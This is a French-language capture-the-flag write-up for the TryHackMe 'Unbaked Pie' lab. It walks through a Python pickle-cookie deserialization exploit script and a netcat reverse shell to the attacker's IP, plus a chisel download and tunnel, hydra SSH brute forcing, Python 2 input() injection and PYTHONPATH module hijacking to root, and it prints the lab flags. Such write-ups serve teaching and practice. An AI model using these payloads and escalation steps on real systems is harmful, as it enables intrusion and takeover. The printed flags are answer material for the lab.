


# Unbaked Pie #

## Task 1 Capture The Flag ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.153.152 unbakedpie.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A unbakedpie.thm -p1-10000 -PN
[sudo] Mot de passe de tim : 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-13 20:46 CEST
Stats: 0:00:09 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 0.40% done
Nmap scan report for unbakedpie.thm (10.10.153.152)
Host is up (0.033s latency).
Not shown: 9999 filtered ports
PORT     STATE SERVICE    VERSION
5003/tcp open  filemaker?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Date: Mon, 13 Sep 2021 18:51:16 GMT
|     Server: WSGIServer/0.2 CPython/3.8.6
|     Content-Type: text/html; charset=utf-8
|     X-Frame-Options: DENY
|     Vary: Cookie
|     Content-Length: 7453
|     X-Content-Type-Options: nosniff
|     Referrer-Policy: same-origin
|     Set-Cookie: csrftoken=0WTisG9yvut1jL91ZXjGE9mcw2kDKDHRF7xmeuTYFI9PQR9pJBIxpCZ7YHmfY23K; expires=Mon, 12 Sep 2022 18:51:16 GMT; Max-Age=31449600; Path=/; SameSite=Lax
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
|     <meta name="description" content="">
|     <meta name="author" content="">
|     <title>[Un]baked | /</title>
|     <!-- Bootstrap core CSS -->
|     <link href="/static/vendor/bootstrap/css/bootstrap.min.css" rel="stylesheet">
|     <!-- Custom fonts for this template -->
|     <link href="/static/vendor/fontawesome-free/css/all.min.cs
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Mon, 13 Sep 2021 18:51:16 GMT
|     Server: WSGIServer/0.2 CPython/3.8.6
|     Content-Type: text/html; charset=utf-8
|     X-Frame-Options: DENY
|     Vary: Cookie
|     Content-Length: 7453
|     X-Content-Type-Options: nosniff
|     Referrer-Policy: same-origin
|     Set-Cookie: csrftoken=vjUeMWwmw0OMmz4IpdjsE8lQY5DDXj5zfo6e5HxoI8AZQXOt7D06JosCHVj7mpJP; expires=Mon, 12 Sep 2022 18:51:16 GMT; Max-Age=31449600; Path=/; SameSite=Lax
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
|     <meta name="description" content="">
|     <meta name="author" content="">
|     <title>[Un]baked | /</title>
|     <!-- Bootstrap core CSS -->
|     <link href="/static/vendor/bootstrap/css/bootstrap.min.css" rel="stylesheet">
|     <!-- Custom fonts for this template -->
|_    <link href="/static/vendor/fontawesome-free/css/all.min.cs
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5003-TCP:V=7.91%I=7%D=9/13%Time=613F9DA5%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,1EC5,"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Mon,\x2013\x20Sep\x20
SF:2021\x2018:51:16\x20GMT\r\nServer:\x20WSGIServer/0\.2\x20CPython/3\.8\.
SF:6\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nX-Frame-Options:\x
SF:20DENY\r\nVary:\x20Cookie\r\nContent-Length:\x207453\r\nX-Content-Type-
SF:Options:\x20nosniff\r\nReferrer-Policy:\x20same-origin\r\nSet-Cookie:\x
SF:20\x20csrftoken=0WTisG9yvut1jL91ZXjGE9mcw2kDKDHRF7xmeuTYFI9PQR9pJBIxpCZ
SF:7YHmfY23K;\x20expires=Mon,\x2012\x20Sep\x202022\x2018:51:16\x20GMT;\x20
SF:Max-Age=31449600;\x20Path=/;\x20SameSite=Lax\r\n\r\n\n<!DOCTYPE\x20html
SF:>\n<html\x20lang=\"en\">\n\n<head>\n\n\x20\x20<meta\x20charset=\"utf-8\
SF:">\n\x20\x20<meta\x20name=\"viewport\"\x20content=\"width=device-width,
SF:\x20initial-scale=1,\x20shrink-to-fit=no\">\n\x20\x20<meta\x20name=\"de
SF:scription\"\x20content=\"\">\n\x20\x20<meta\x20name=\"author\"\x20conte
SF:nt=\"\">\n\n\x20\x20<title>\[Un\]baked\x20\|\x20/</title>\n\n\x20\x20<!
SF:--\x20Bootstrap\x20core\x20CSS\x20-->\n\x20\x20<link\x20href=\"/static/
SF:vendor/bootstrap/css/bootstrap\.min\.css\"\x20rel=\"stylesheet\">\n\n\x
SF:20\x20<!--\x20Custom\x20fonts\x20for\x20this\x20template\x20-->\n\x20\x
SF:20<link\x20href=\"/static/vendor/fontawesome-free/css/all\.min\.cs")%r(
SF:HTTPOptions,1EC5,"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Mon,\x2013\x20Sep\
SF:x202021\x2018:51:16\x20GMT\r\nServer:\x20WSGIServer/0\.2\x20CPython/3\.
SF:8\.6\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nX-Frame-Options
SF::\x20DENY\r\nVary:\x20Cookie\r\nContent-Length:\x207453\r\nX-Content-Ty
SF:pe-Options:\x20nosniff\r\nReferrer-Policy:\x20same-origin\r\nSet-Cookie
SF::\x20\x20csrftoken=vjUeMWwmw0OMmz4IpdjsE8lQY5DDXj5zfo6e5HxoI8AZQXOt7D06
SF:JosCHVj7mpJP;\x20expires=Mon,\x2012\x20Sep\x202022\x2018:51:16\x20GMT;\
SF:x20Max-Age=31449600;\x20Path=/;\x20SameSite=Lax\r\n\r\n\n<!DOCTYPE\x20h
SF:tml>\n<html\x20lang=\"en\">\n\n<head>\n\n\x20\x20<meta\x20charset=\"utf
SF:-8\">\n\x20\x20<meta\x20name=\"viewport\"\x20content=\"width=device-wid
SF:th,\x20initial-scale=1,\x20shrink-to-fit=no\">\n\x20\x20<meta\x20name=\
SF:"description\"\x20content=\"\">\n\x20\x20<meta\x20name=\"author\"\x20co
SF:ntent=\"\">\n\n\x20\x20<title>\[Un\]baked\x20\|\x20/</title>\n\n\x20\x2
SF:0<!--\x20Bootstrap\x20core\x20CSS\x20-->\n\x20\x20<link\x20href=\"/stat
SF:ic/vendor/bootstrap/css/bootstrap\.min\.css\"\x20rel=\"stylesheet\">\n\
SF:n\x20\x20<!--\x20Custom\x20fonts\x20for\x20this\x20template\x20-->\n\x2
SF:0\x20<link\x20href=\"/static/vendor/fontawesome-free/css/all\.min\.cs");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.12 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 - 4.6 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 - 3.11 (92%), Linux 4.2 (92%), Linux 4.4 (92%), Linux 3.16 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 5003/tcp)
HOP RTT      ADDRESS
1   31.78 ms 10.9.0.1
2   32.49 ms unbakedpie.thm (10.10.153.152)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 371.96 seconds

```

En scannant les 10000 premiers port on trouve un service inconnue qui semble de l'HTTP sur le port 5003.    

   

On tombe sur une page web.   

   

Quand on fait une recherche la valeur du search_cookie change regardons ce que c'est.  

```python
tim@kali:~/Bureau/tryhackme/write-up$ python3
Python 3.8.0 (default, Sep  1 2021, 20:05:29) 
[GCC 10.2.1 20210110] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import pickle
>>> val = b"gASVCAAAAAAAAACMBHRvdG+ULg=="
>>> from base64 import b64decode
>>> test = b64decode(val)
>>> test
b'\x80\x04\x95\x08\x00\x00\x00\x00\x00\x00\x00\x8c\x04toto\x94.'
>>> pickle.loads(test)
'toto'
```

On voit que le cookie est un objet serialisé pour python, on le décode avec pickle.   

```python
tim@kali:~/Bureau/tryhackme/write-up$ cat object-exploit.py 

import pickle
import os
from base64 import b64encode, b64decode
import sys

if len(sys.argv) != 2:
    print("[i] usage python3 exploi.py <payload>")
    sys.exit()

cmd = sys.argv[1]

class pickler(object):
    def __reduce__ (self):
        return (os.system, (cmd, ))

def exploiter():
    payload = pickler()
    payload = b64encode(pickle.dumps(payload)).decode()
    print (f"[+] Payload: {payload}\n")

if __name__ == ("__main__"):
        exploiter()

```

On écrit un programme python qui encode notre objet.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ python object-exploit.py "/bin/nc -e /bin/sh 10.9.228.66 1234"
[+] Payload: gASVPgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjCMvYmluL25jIC1lIC9iaW4vc2ggMTAuOS4yMjguNjYgMTIzNJSFlFKULg==

```

On génère notre objet qui contient un reverse shell.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
```

On écoute le port 1234 pour se connecter au reverse shell.   

 

Avec burp on modifie le cookie et on envoie le requète.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.134.183] 40996
id

uid=0(root) gid=0(root) groups=0(root)
cd /root
ls
ls -al
total 36
drwx------ 1 root root 4096 Oct  3  2020 .
drwxr-xr-x 1 root root 4096 Oct  3  2020 ..
-rw------- 1 root root  889 Oct  6  2020 .bash_history
-rw-r--r-- 1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x 3 root root 4096 Oct  3  2020 .cache
drwxr-xr-x 3 root root 4096 Oct  3  2020 .local
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rw------- 1 root root    0 Sep 24  2020 .python_history
drwx------ 2 root root 4096 Oct  3  2020 .ssh
-rw-r--r-- 1 root root  254 Oct  3  2020 .wget-hsts

cat .bash_history
ls
requirements.sh
run.sh
site
pwd
/home
cd /root
cat .bash_history
nc
exit
ifconfig
ip addr
ssh 172.17.0.1
ssh 172.17.0.2
exit
ssh ramsey@172.17.0.1
```

Dans l'historique de commande root, on remarque qu'il eu une connexion ssh à l'adresse 172.17.0.2.  


```bash
tim@kali:~/Bureau/tryhackme/write-up$ whereis chisel
chisel: /usr/bin/chisel
tim@kali:~/Bureau/tryhackme/write-up$ cp /usr/bin/chisel ./
tim@kali:~/Bureau/tryhackme/write-up$ python -m http.server  
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

On prépare à transferer chisel sur la machine cible.  

```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
root@8b39a559b296:~# wget http://10.9.228.66:8000/chisel -nv
wget http://10.9.228.66:8000/chisel -nv
2021-09-13 20:56:47 URL:http://10.9.228.66:8000/chisel [8750072/8750072] -> "chisel" [1]
root@8b39a559b296:~# chmod +x chisel
chmod +x chisel
```

On télécharge chisel sur la machine cible.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ chisel server -p 2211 --reverse
2021/09/13 23:07:08 server: Reverse tunnelling enabled
2021/09/13 23:07:08 server: Fingerprint oB9ODEgr6zUfYQeSYoUQd7/xQ0rKVrEx5NOI+hkkuA8=
2021/09/13 23:07:08 server: Listening on http://0.0.0.0:2211
```

On active le serveur sur notre machine.  

```bash
root@8b39a559b296:~# ./chisel client 10.9.228.66:2211 R:1337:172.17.0.1:22
./chisel client 10.9.228.66:2211 R:1337:172.17.0.1:22
2021/09/13 21:09:46 client: Connecting to ws://10.9.228.66:2211
2021/09/13 21:09:46 client: Connected (Latency 35.044895ms)
```

On active le  port fowarding sur la machine cible.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ hydra -s 1337 -l ramsey -P /usr/share/wordlists/rockyou.txt localhost ssh
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-09-13 23:11:00
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://localhost:1337/
[1337][ssh] host: localhost   login: ramsey   password: 12345678
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-09-13 23:11:04
```

On brute force le mot de passe du compte ramsey.  
On obtient le mot de passe qui est : 121345678   

**User Flag**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ssh ramsey@127.0.0.1 -p 1337
The authenticity of host '[127.0.0.1]:1337 ([127.0.0.1]:1337)' can't be established.
ECDSA key fingerprint is SHA256:Hec+oL7z07dkDWFMy7rs73U7+7HQdo+YtQO04CsFB1k.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[127.0.0.1]:1337' (ECDSA) to the list of known hosts.
ramsey@127.0.0.1's password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-186-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


39 packages can be updated.
26 updates are security updates.


Last login: Tue Oct  6 22:39:31 2020 from 172.17.0.2
ramsey@unbaked:~$ id

uid=1001(ramsey) gid=1001(ramsey) groups=1001(ramsey)
ramsey@unbaked:~$ ls
payload.png  user.txt  vuln.py
ramsey@unbaked:~$ cat user.txt 
THM{ce778dd41bec31e1daed77ebebcd7423}

```

On se connecte à l'utilisateur ramsey.   
On trouve un fichier user.txt et on le lit.  

La réponse est : THM{ce778dd41bec31e1daed77ebebcd7423}  

**Root Flag**

```bash
ramsey@unbaked:~$ sudo -l
[sudo] password for ramsey: 
Matching Defaults entries for ramsey on unbaked:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User ramsey may run the following commands on unbaked:
    (oliver) /usr/bin/python /home/ramsey/vuln.py
```

On peut exécuter viln.py avec les droits oliver grace la configuration sudo.    

```bash
ramsey@unbaked:~$ /usr/bin/python -V
Python 2.7.12

ramsey@unbaked:~$ cat vuln.py | grep input
		OPTIONS = int(input("\t\t\tEnter Options >> "))
			OPTIONS2 = int(input("\t\t\tEnter Options >> "))
				NUM1 = int(input("\t\t\tEnter Number1 >> "))
				NUM2 = int(input("\t\t\tEnter Number2 >> "))

```

On est sur la version 2 de python.
On a des input.
On peut exploiter une faille.  

```bash
ramsey@unbaked:~$ sudo -u oliver /usr/bin/python /home/ramsey/vuln.py
                                             
				      (
				       )
			          __..---..__
			      ,-='  /  |  \  `=-.
			     :--..___________..--;
	 		      \.,_____________,./
		 

██╗███╗   ██╗ ██████╗ ██████╗ ███████╗██████╗ ██╗███████╗███╗   ██╗████████╗███████╗
██║████╗  ██║██╔════╝ ██╔══██╗██╔════╝██╔══██╗██║██╔════╝████╗  ██║╚══██╔══╝██╔════╝
██║██╔██╗ ██║██║  ███╗██████╔╝█████╗  ██║  ██║██║█████╗  ██╔██╗ ██║   ██║   ███████╗
██║██║╚██╗██║██║   ██║██╔══██╗██╔══╝  ██║  ██║██║██╔══╝  ██║╚██╗██║   ██║   ╚════██║
██║██║ ╚████║╚██████╔╝██║  ██║███████╗██████╔╝██║███████╗██║ ╚████║   ██║   ███████║
╚═╝╚═╝  ╚═══╝ ╚═════╝ ╚═╝  ╚═╝╚══════╝╚═════╝ ╚═╝╚══════╝╚═╝  ╚═══╝   ╚═╝   ╚══════╝


			--------- WELCOME! ---------
			1. Calculator
			2. Easy Calculator
			3. Credits
			4. Exit
			----------------------------
			Enter Options >> __import__('os').system('/bin/bash')
oliver@unbaked:~$ id
uid=1002(oliver) gid=1002(oliver) groups=1002(oliver),1003(sysadmin)
```

On exécute le script avec les droits oliver.  
On force le scirpt à exécuter un shell.   

```bash
oliver@unbaked:~$ sudo -l
Matching Defaults entries for oliver on unbaked:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User oliver may run the following commands on unbaked:
    (root) SETENV: NOPASSWD: /usr/bin/python /opt/dockerScript.py
```

On peut exécuter dockerScript avec les droits root et sans mot de passe.   
En plus on peut manipuler la variale d'environement.   

```bash
oliver@unbaked:~$ cd /tmp
oliver@unbaked:/tmp$ echo "import os" > docker.py
oliver@unbaked:/tmp$ echo 'os.system("/bin/bash")' >> docker.py

oliver@unbaked:/tmp$ sudo PYTHONPATH=/tmp/ /usr/bin/python /opt/dockerScript.py 
root@unbaked:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@unbaked:/tmp# cat /root/root.txt

CONGRATS ON PWNING THIS BOX!
Created by ch4rm & H0j3n
ps: dont be mad us, we hope you learn something new

flag: THM{1ff4c893b3d8830c1e188a3728e90a5f}

```

Ici on fait un usurpation de module.  
On crée un faux module dans tmp qui exécute un shell bash.  
On modifie la variable d'environement qui indique ou sont les modules pythons.  
On exécute le scripte on a un shell avec les droits root.   
On lit le fichier root.txt dans root.  

La réponse est : flag: THM{1ff4c893b3d8830c1e188a3728e90a5f}   